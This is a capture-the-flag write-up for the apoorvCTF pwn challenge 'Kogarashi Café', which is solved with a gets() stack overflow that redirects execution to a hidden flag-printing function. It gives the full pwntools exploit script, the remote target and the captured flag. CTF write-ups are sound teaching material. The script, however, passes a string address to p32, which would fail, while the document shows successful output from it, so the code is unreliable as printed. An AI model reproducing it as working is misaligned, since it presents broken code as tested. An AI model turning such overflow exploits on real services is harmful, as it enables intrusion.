 ```yaml
---
date: 2025-03-07 14:20:45 +02:00
categories: [apoorvCTF, Pwn]
tags: [Pwn, CTF, apoorvCTF]
---
```


This is a writeup of the Pwn challenge Kogarashi Café - The First Visit by [apoorvCTF](https://apoorvctf.iiitkottayam.ac.in/) 
#### Points: 50
# Premise
A quiet café, a simple question. The barista waits, but your order may mean more than it seems.

`nc chals1.apoorvctf.xyz 3001`
## Challenge files:

[first_visit](https://github.com/CSYClubIIITK/CTF-Writeups/blob/main/ApoorvCTF-25-Writeups/BinExp/Kogarashi%20Caf%C3%A9%20-%20The%20First%20Visit/files/first_visit)

# Observations
Looking at the challenge file, we have a single executable, we can check it with a few methods such as file and checksec

![file](/assets/images/apoorvCTF/cafe1/file.png)

![checksec](/assets/images/apoorvCTF/cafe1/checksec.png)

From this, we see that the file we're working with is a 32 bit executable with some settings that make our lives as attackers easier, such as the binary not being stripped, and PIE not being enabled.

Our next step here is to see if we can check what language the program was compiled in, in my case, I do this by using [Detect it Easy (DIE)](https://github.com/horsicq/Detect-It-Easy)

![DIE](/assets/images/apoorvCTF/cafe1/DIE.png)

As we can see, the program looks like it was made in C/C++. Our next step from here is to load the program into a disassembler, in my case I'm using [IDA Free](https://hex-rays.com/ida-free)

At first upon opening the program, we see the following functions that look interesting
![IDA functions](/assets/images/apoorvCTF/cafe1/IDA_1.png)

We can start off by checking main()
![main functions](/assets/images/apoorvCTF/cafe1/IDA_main.png)

As we can see, theres only a call to order_coffee in it, so we proceed to there
![order_coffee function](/assets/images/apoorvCTF/cafe1/IDA_order_coffee.png)

This function has an interesting component, `gets()`, which is known to be vulnerable, since it doesnt account for the number of characters read by it. We also see the buffer labled as v1 here having a size of 40 characters. These two will be important later.

We have the final function that we want to examine, brew_coffee, we dont see any calls to this function from the normal execution flow of the program, but we can check it anyway:
![brew_coffee function](/assets/images/apoorvCTF/cafe1/IDA_brew_coffee.png)

As is very apparent, brew_coffee is of great interest to us, since it reads and prints the flag. However, as previously stated, we see no calls to this function, but we can exploit the `gets()` call from the previous function.

First though, we want to actually know where we're going, so we want to have the address of brew_coffee. We can find this either by using tools such as gdb or objdump.
Using `objdump -d first_visit` we get a lot of output, but for our purposes we mainly want to focus on the first bits of brew_coffee:
```bash
 0804856b <brew_coffee>:
 804856b:	55                   	push   %ebp
 804856c:	89 e5                	mov    %esp,%ebp
 804856e:	81 ec 98 00 00 00    	sub    $0x98,%esp
 8048574:	83 ec 08             	sub    $0x8,%esp
 8048577:	68 00 87 04 08       	push   $0x8048700
 804857c:	68 02 87 04 08       	push   $0x8048702
 8048581:	e8 ca fe ff ff       	call   8048450 <fopen@plt>
```
Here, we've found our sought address, `0x804856b`, if we can override the buffer and EBP, we can add this at the end as our new return address.

# Solution
With all of our findings, I've developed the following python script, using [pwntools](https://github.com/Gallopsled/pwntools)

```python
from pwn import *

#Exploit target
target = remote('chals1.apoorvctf.xyz', 3001)

#We know we're waiting for exactly two lines of dialogue, once we recieve these, we can send the payload
print(target.recvline())
print(target.recvline())

offset = 44
#Address of brew_coffee() function: 0x0804856b
win_address = "0x0804856b"

payload = b"A"*offset
payload += p32(win_address)

target.sendline(payload)
target.interactive()
```

Running this script gives us the following output:
```bash
b'Welcome to Kogarashi Caf\xc3\xa9.\n'
b"Barista: 'What will you have?'\n"
[*] Switching to interactive mode
Barista: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAk\x85\x04\x08... interesting choice.'
Brewing...
Barista: 'A rare choice... here is your secret blend.'
apoorvctf{c0ffee_buff3r_sp1ll}

[*] Got EOF while reading in interactive
$
```

Which gives us the flag:
> apoorvctf{c0ffee_buff3r_sp1ll}
{: .prompt-tip }


# Tools and sources used:
- [IDA Free](https://hex-rays.com/ida-free)
- [pwntools](https://github.com/Gallopsled/pwntools)
- [Detect It Easy](https://github.com/horsicq/Detect-It-Easy)
- [gdb](https://sourceware.org/gdb/)
- [geh](https://github.com/hugsy/gef)
- [checksec](https://github.com/slimm609/checksec)
